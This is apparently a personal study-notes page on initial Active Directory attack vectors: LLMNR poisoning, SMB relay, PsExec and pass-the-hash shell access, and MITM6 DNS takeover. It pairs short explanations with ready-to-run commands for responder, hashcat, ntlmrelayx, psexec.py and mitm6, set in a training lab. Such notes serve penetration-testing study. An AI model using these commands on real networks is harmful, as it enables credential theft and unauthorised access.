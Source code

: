 ```yaml
---
title: Initial Attack Vectors
categories: [Active Directory notes]
published: true
description: Learn about initial attack vectors inside AD enviromnemt.
---
```


## LLMNR Poisoning - TEST TEST TEST

LLMNR (Link-Local Multicast Name Resolution) is a Windows protocol used to resolve hostnames when DNS fails. It allows devices to ask the local network, "Who has this hostname?"

How does poisoning work?

1. A Windows machine fails to resolve a hostname using DNS.
2. It broadcasts an LLMNR request to the local network, asking for the hostname’s IP.
3. An attacker intercepts the request and responds falsely, claiming to be the requested host.
4. The victim connects to the attacker's machine, often sending NTLMv2 hashed credentials in the process.
5. The attacker can capture the NTLM hash and attempt to crack it or use Pass-the-Hash attacks.

Run responder:

```bash
sudo responder -I tun0 -dwP
```

Crack NetNTLMv2 hash:
```bash
hashcat -m 5600 hashes.txt rockyou.txt
```

---

## SMB Relay

SMB (Server Message Block) is a protocol used for file sharing and authentication in Windows networks. It allows users to access shared files, printers, and network resources.

How does SMB Relay work?

1. A victim tries to connect to a malicious (or compromised) SMB server.
2. The attacker's server requests authentication and captures the victim’s NTLM hash.
3. Instead of cracking the hash, the attacker forwards (relays) it to another system on the network that accepts NTLM authentication.
4. If the relayed authentication is successful, the attacker gains access to the second system with the victim’s privileges.

Requirements:

- SMB Signing must be set to False or not required.
- Relayed user account needs to have admin privileges on the target machine.
- Responder.conf must have SMB=OFF and HTTP=OFF. `sudo mousepad /etc/responder/Responder.conf`

The attack can be done as follows:

- Check SMB signing:

```bash
nmap —script=smb2-security-mode.nse -p445 IP/CIDR
```

```bash
crackmapexec smb 192.168.100.0/24 --gen-relay-list relayOutFile.txt
```

- Run responder

```bash
sudo responder -I tun0 -dwP
```

- Run ntlmrelayx

```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support [ -i for shell ] [ -c COMMAND ]
```

---

## PsExec Shell Access

- Metasploit:

`use exploit/windows/smb/psexec`

- Psexec.py:

```bash
psexec.py marvel.local/fcastle:’Password1’@IP_ADD
```

- Or with hash

```bash
psexec.py administrator@IP_ADDR -hashes HASH 
```

- Wmiexec.py:

```bash
wmiexec.py administrator@IP_ADDR -hashes HASH 
```

- Smbexec.py:

```bash
smbexec.py administrator@IP_ADDR -hashes HASH 
```

---

## MITM6 DNS takeover

MITM6 (Man-in-the-Middle IPv6) is a tool that exploits IPv6 auto-configuration in Windows networks to perform DNS takeover attacks.

How does the attack work?

1. Windows machines prefer IPv6 over IPv4 by default.
2. The attacker introduces a rogue IPv6 DHCP server using MITM6.
3. Victim machines automatically accept the attacker's fake IPv6 DNS server.
4. The attacker can now redirect DNS requests, forcing authentication to a malicious SMB/LDAP server.
5. If a victim authenticates, the attacker steals NTLM hashes and can perform relay attacks.

The attack can be done as follows:

- Run ntlmrelayx.py

```bash
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.marvel.local -l lootme
```

- Run mitm6

```bash
sudo mitm6 -d marvel.local
```
